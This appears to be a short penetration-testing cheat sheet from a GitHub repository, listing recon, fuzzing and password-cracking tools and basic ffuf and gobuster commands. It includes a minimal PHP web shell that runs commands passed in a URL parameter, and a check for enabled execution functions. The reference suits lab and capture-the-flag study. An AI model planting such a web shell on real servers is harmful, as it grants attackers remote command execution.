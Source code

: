 # Miscelaneous tools and others.

Tools for directory discovery: mainly gobuster and dirbuster.
Tools for fuzzing: ffuf, wfuzz.
Tools for password cracking: john, hydra.
General use scripts towards Windows-oriented attacks: https://github.com/fortra/impacket
Automated tool for misconfigs, clear-text creds and others: https://github.com/carlospolop/PEASS-ng
Good dictionaries: https://github.com/danielmiessler/SecLists

Very simple php shell:
```
<?php 
    if(isset($_GET['cmd'])) { 
    system($_GET['cmd']); 
}?>

```

PHP check if funny features are enabled or not:

```php
<?php
    print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

Basic ffuf use:

Fuzzes subdirectories.
ffuz -w (wordlist) -u http(s)://domainname.com/FUZZ

Fuzzes subdomains.
ffuz -w (wordlist) -u http(s)://FUZZ.domainname.com

Fuzz an HTTP header.
ffuz -w (wordlist) -u http(s)://domainname.com -H "Cookie: FUZZ"


Basic gobuster use:

Check for subdirectories.
gobuster dir -w (wordlist) -u http(s)://domainname.com/

Checks for virtualhosts (S3 buckets and more).
gobuster vhost -w (wordlist) -d http(s)://domainname.com/

